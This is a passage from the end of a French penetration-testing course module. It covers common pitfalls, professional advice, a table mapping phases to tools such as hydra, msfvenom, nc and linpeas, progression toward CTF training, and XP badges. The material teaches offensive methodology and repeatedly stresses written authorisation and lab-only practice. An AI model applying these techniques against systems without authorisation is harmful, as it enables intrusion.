**9. Croire Metasploit « magique ».** *Pourquoi :* on lance `use ...` + `run` sans comprendre ni vérifier. *Éviter :* vérifier la version du service dans le module, `show options` systématiquement, et confirmer l'accès (`id`, `sysinfo`) avant de conclure. Un exploit qui « réussit » mais ne donne rien n'est pas une preuve.

**10. Bruteforce sans réfléchir.** *Pourquoi :* `hydra` avec 50 tâches sur un service de production. *Éviter :* RoE d'abord, `-t` modéré, `-f` pour s'arrêter, et connaître la tolérance du service (rate limiting, verrouillage).

**11. Cracker sans identifier le format.** *Pourquoi :* on lance `john`/`hashcat` avec le mauvais mode et on conclut « impossible à cracker ». *Éviter :* observer le préfixe (`$1$`, `$6$`, `$2b$`), vérifier avec `john --list=formats`, tester une wordlist connue avant de généraliser.

**12. Noyer le rapport sous les faux positifs.** *Pourquoi :* recopier toutes les sorties de `nikto` sans vérification. *Éviter :* ne reporter que les constats **confirmés**, marquer les autres comme « à vérifier », et toujours croiser scanner automatique + vérification manuelle.

**13. Toucher aux données réelles.** *Pourquoi :* on lit un fichier client ou une base pour « prouver » l'impact. *Éviter :* preuve minimale avec des données de test ; si la preuve exige un accès à des données sensibles, on le signale et on demande l'autorisation explicite (et on ne les copie jamais dans le rapport).

**14. Oublier le nettoyage.** *Pourquoi :* on laisse des fichiers de transfert, des shells, des crons modifiés. *Éviter :* en fin de post-exploitation, lister et supprimer ce qu'on a déposé, et vérifier que les services tournent comme avant.

---

## Conseils professionnels

> Des habitudes de terrain, transmises par des pentesters expérimentés. La
> plupart ne s'apprennent pas dans un manuel : elles se gagnent en projet.

**1. La méthode avant la vitesse.** Un scan lent et complet vaut mieux qu'un scan rapide et partiel. La recon est le 80 % du succès : prends le temps de connaître la cible avant d'agir.

**2. Sauvegarde toutes les preuves, toujours.** Fichiers de sortie (`-oA`, `-o`), captures horodatées, notes datées. Tu ne sais jamais quelle preuve le client va demander — ou contester. Le rapport se joue au moment de la collecte, pas au moment de l'écriture.

**3. Demande l'autorisation pour chaque action sensible.** Le contrat donne le cadre ; chaque action risquée (bruteforce, exploit de noyau, pivot) doit rester dans ce cadre, et tout dépassement se demande par écrit. Un « non » est plus utile qu'un incident.

**4. Communique avec le client.** Annonce le planning, signale les découvertes importantes en cours de route, préviens immédiatement en cas d'incident. Un client tenu informé accepte plus facilement les mauvaises nouvelles du rapport.

**5. Écris le rapport au fur et à mesure.** Pas de « je me souviens », pas de preuve reconstituée : chaque fiche de constat se rédige pendant que les commandes sont encore chaudes.

**6. Vérifie avant de conclure.** Un port ouvert ≠ vulnérable ; un script qui « beep » ≠ exploit fonctionnel. Reproduis, confirme, et sépare les faits prouvés des hypothèses dans le rapport.

**7. Connais ton outillage par cœur, mais sache t'en passer.** Le jour où `nmap` n'est pas installé sur un système de labo, tu dois savoir utiliser `nc` ou Python pour faire un scan de ports. L'outil s'oublie, la technique reste.

**8. Reste humble et curieux.** Les systèmes évoluent, les CVE aussi. Lis les bulletins de sécurité, refais tes labos, échange avec la communauté. La curiosité méthodique est le moteur de la carrière — pas la vitesse de frappe.

**9. Protège tes données d'attaque.** Clés SSH, wordlists personnelles, scripts maison : versionne-les, ne les expose pas sur GitHub par erreur, et ne laisse jamais traîner un payload sur une machine cliente.

**10. Garde ton profil propre.** Un pentester qui « publie ses exploits » ou blague sur ses dernières intrusions nuit à la profession et à sa propre carrière. La discrétion et l'intégrité sont des compétences, pas des options.

## Résumé

### Synthèse visuelle : phase → objectif → outils → livrable

| Phase | Objectif | Outils clés | Livrable |
| ----- | -------- | ----------- | -------- |
| Pre-engagement | Cadrer, autoriser, borner | Contrat, RoE, autorisation | Documents signés |
| Recon passive | Connaître sans toucher | `whois`, `dig`, `curl`, `sublist3r`, Google dorks | Inventaire d'actifs |
| Recon active | Cartographier le réseau | `nmap`, `masscan`, RustScan | Cartographie ports/services |
| Énumération applicative | Trouver les pages/technos cachées | `gobuster`, `ffuf`, `wpscan`, `nikto`, `whatweb` | Liste de cibles web |
| Analyse de vulnérabilités | Relier service → CVE | `nmap --script vuln`, `searchsploit`, CVSS | Liste CVE scorée |
| Exploitation | Prouver l'accès | Metasploit, `msfvenom`, `hydra`, `sqlmap`, `nc`, `socat` | POC + premier accès |
| Post-exploitation | Montrer l'impact maximal | `linpeas`, GTFOBins, `john`, `hashcat` | Privesc + données |
| Reporting | Rendre le résultat utilisable | Rapport exécutif + technique, captures | Rapport final + re-test |

### Les 7 idées à retenir

1. **La méthode est le métier** : sans cadre (autorisation, scope, phases), on ne fait pas du pentest, on commet des intrusions.
2. **La recon est 80 % du travail** : passive d'abord, active ensuite, toujours sauvegardée.
3. **Un port n'est rien sans sa version** : `-p-` + `-sV`, toujours.
4. **L'exploitation prouve, elle ne détruit pas** : POC minimal, zéro dégât, données de test uniquement.
5. **La post-exploitation démontre l'impact** : privesc (sudo, SUID, cron, capabilities, noyau) = la preuve du « root ».
6. **Les mots de passe se testent en ligne et se cassent hors-ligne** : `hydra` d'un côté, `john`/`hashcat` de l'autre, format d'abord.
7. **Le rapport est le produit final** : preuves reproductibles + CVSS + recommandations actionnables. Sans lui, rien n'a servi.

```
   CONTRAT ─▶ RECON ─▶ ANALYSE ─▶ EXPLOITATION ─▶ POST-EXPLOIT ─▶ RAPPORT
   (cadre)    (carte)   (CVE+CVSS)   (POC)          (privesc)      (preuves)
```

---

## Progression

### Ce que tu maîtrises maintenant

| Compétence | Maîtrise |
| ---------- | -------- |
| Structurer un pentest selon PTES / OSSTMM / ISSAF | ✅ |
| Cadrer légalement un engagement (contrat, scope, RoE, autorisation) | ✅ |
| Mener recon passive (OSINT, whois, DNS, dorks, sous-domaines) et active | ✅ |
| Cartographier ports et services (`nmap -p-`, `-sV`, `masscan`, RustScan) | ✅ |
| Énumérer le web (`gobuster`, `ffuf`, `wpscan`, `nikto`) | ✅ |
| Analyser les vulnérabilités (CVE, `searchsploit`, CVSS) | ✅ |
| Exploiter sans casser (Metasploit, `msfvenom`, POC) | ✅ |
| Obtenir et stabiliser un shell (reverse/bind, `nc`, `socat`, Python) | ✅ |
| Bruteforce en ligne (`hydra`) et cracking hors-ligne (`john`, `hashcat`) | ✅ |
| Escalader les privilèges Linux (`linpeas`, SUID, sudo, cron, capabilities) | ✅ |
| Rédiger un rapport exécutif + technique avec preuves | ✅ |

### Ce que tu dois apprendre ensuite

Tu as maintenant la **méthode** : tu sais structurer un pentest, l'exécuter et le rapporter. Le niveau suivant est le **Niveau 7 — CTF Training 🚩** : on transforme la méthode en **pratique intensive** sur des machines et des plateformes d'entraînement (HackTheBox, TryHackMe, Root-Me). Chaque catégorie (web, crypto, pwn, reverse, forensics, OSINT) exercera les compétences acquises ici, sous la pression du flag à récupérer.

Puis viendront le bug bounty (niveau 8), l'Active Directory (niveau 9), le red team (niveau 10) et le cloud (niveau 11), qui prolongent la même méthode vers de nouvelles cibles.

```
Niveau 6 (ici) ─▶ Niveau 7 CTF ─▶ Niveau 8 Bug Bounty ─▶ Niveau 9 AD
   la méthode       la pratique       la monétisation      le domaine
```

> 💡 Avant de passer au niveau 7, refais le TP1 complet sans regarder la
> correction, puis rédige le rapport de ta VM. Si tu arrives à boucler
> contrat → recon → exploitation → privesc → rapport sans aide, tu es prêt.

---

## Gamification

### XP et récompenses

| Élément | Valeur |
| ------- | ------ |
| **XP pour le cours complet** (quiz ≥ 80 %) | 1 500 XP |
| XP bonus : mini challenge sans indice | +50 XP |
| XP bonus : laboratoire sans correction | +100 XP |
| **Badge obtenu** | 🔍 Limier |
| **Niveau débloqué** | Niveau 7 — CTF Training |
| **Temps** | ~18 h (3 à 4 séances de 4-6 h) |

### Succès débloquables

| Succès | Condition | Récompense |
| ------ | --------- | ---------- |
| 🧾 Cadre | Rédiger un contrat + RoE fictifs avant le TP1 | 20 XP |
| 🗺️ Cartographe | Scan complet `-p-` + `-sV` sur une VM avec `-oA` | 25 XP |
| 🐚 Shell | Obtenir et stabiliser un reverse shell en labo | 30 XP |
| 🔓 Premier crack | Cracker un hash avec john puis hashcat | 30 XP |
| 👑 Root | Escalade de privilèges jusqu'à root sur une VM | 40 XP |
| 📑 Rapport | Rédiger un rapport exécutif + technique du TP1 | 40 XP |
| 🕵️ Zero help | Les 3 mini challenges sans indice | 50 XP |
| 🏆 Limier | Valider le cours (quiz ≥ 80 %) | 1 500 XP + badge 🔍 Limier |

### Compétences acquises (grille)

| Compétence | Niveau atteint |
| ---------- | -------------- |
| Méthodologie et cadre légal (PTES, scope, autorisation) | ⭐⭐⭐⭐⭐ |
| Reconnaissance OSINT et active | ⭐⭐⭐⭐ |
| Cartographie réseau (nmap, masscan, RustScan) | ⭐⭐⭐⭐⭐ |
| Énumération applicative (gobuster, ffuf, wpscan) | ⭐⭐⭐⭐ |
| Analyse CVE et scoring CVSS | ⭐⭐⭐⭐ |
| Exploitation et POC (Metasploit, msfvenom) | ⭐⭐⭐⭐ |
| Shells et stabilisation (nc, socat, Python) | ⭐⭐⭐⭐⭐ |
| Bruteforce et cracking (hydra, john, hashcat) | ⭐⭐⭐⭐ |
| Escalade de privilèges Linux (linpeas, GTFOBins) | ⭐⭐⭐⭐ |
| Reporting professionnel | ⭐⭐⭐⭐ |

**Rappel du cadre.** Toutes ces compétences s'exercent dans un laboratoire isolé, sur tes machines ou sur des plateformes d'entraînement. Le badge 🔍 Limier signifie que tu sais **mener un test d'intrusion avec méthode, de bout en bout** — la condition pour mériter le respect de la profession : ne tester que ce qui nous appartient, ou ce qu'un contrat écrit nous autorise.

---

*Fichier écrit : 2 511 lignes · 16 sections conformes (1. Présentation, 2. Objectifs pédagogiques, 3. Vue d'ensemble, 4. Théorie, 5. Visualisation, 6. Démonstration, 7. Cas réels, 8. Laboratoires, 9. Mini Challenges, 10. Quiz, 11. Cheat Sheet, 12. Pièges fréquents, 13. Conseils professionnels, 14. Résumé, 15. Progression, 16. Gamification).*
